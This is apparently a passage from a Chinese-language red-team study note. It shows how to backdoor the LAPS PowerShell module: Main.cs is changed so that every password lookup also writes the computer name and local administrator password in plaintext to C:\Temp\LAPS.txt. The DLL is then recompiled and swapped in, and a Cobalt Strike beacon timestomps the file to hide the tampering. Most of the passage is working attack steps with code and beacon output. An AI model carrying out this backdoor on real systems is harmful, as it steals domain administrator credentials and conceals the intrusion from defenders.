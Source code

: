  Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     05/05/2021 16:14:39   en-US
 30kb     fil     09/23/2016 00:38:16   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661474490204.png)

修改这个文件


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661474660596.png)

找到Main/AdmPwd.PS/Main.cs里的这个方法
```
[Cmdlet("Get", "AdmPwdPassword")]
public class GetPassword : Cmdlet
{
    [Parameter(Mandatory = true, Position = 0, ValueFromPipeline = true)]
    public String ComputerName;

    protected override void ProcessRecord()
    {
        foreach (string dn in DirectoryUtils.GetComputerDN(ComputerName))
        {
            PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
            WriteObject(pi);
        }
    }
}
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661474867370.png)

添加这两行代码,当操作获取密码的命令时，把当前密码写文件到```C:\Temp\LAPS.txt```
```
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661474940637.png)

上面保存，编译生成一个AdmPwd.PS.dll文件


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661475080201.png)

替换源文件，这里如果报进程占用要kill掉进程或者重启计算机


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661475846601.png)

同步时间戳
```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\
[*] cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\
[+] host called home, sent: 69 bytes
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
[*] Tasked beacon to timestomp AdmPwd.PS.dll to AdmPwd.PS.psd1
[+] host called home, sent: 1110 bytes